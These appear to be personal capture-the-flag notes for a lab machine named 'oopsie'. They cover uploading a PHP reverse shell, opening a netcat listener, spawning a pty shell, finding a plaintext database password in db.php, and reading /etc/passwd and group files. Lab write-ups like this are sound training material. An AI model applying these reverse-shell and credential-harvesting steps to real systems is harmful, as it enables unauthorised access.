 # php revese shell
Located in `/usr/share/webshells/php/php-reverse-shell.php`

Change port and ip and then upload the file.
```bash
$ip = '@IP_Local';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```

Set up a netcat listener on the same port.
```bash
$ nc -lvnp 1234
```

In order to have a functional shell can execute this command:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Username is `www-data` and the machine is named `oopsie`.

Search in the directory `/var/www/html/xxx/` the folder `login`. There are 4 files in that folder. 

## admin.php
Inside the file there's a new id `86575` but no username related.

## db.php
In the first lines appears the username `robert` with a password `M3g4C0rpUs3r!` and the word `garage`.

```ad-question
Maybe ssh with robert user?
```

# cat /etc/xxx
## passwd
```bash
robert:x:1000:1000:robert:/home/robert:/bin/bash
```

## group
```bash
robert:x:1000:lxd
bugtracker:x:1001:robert
```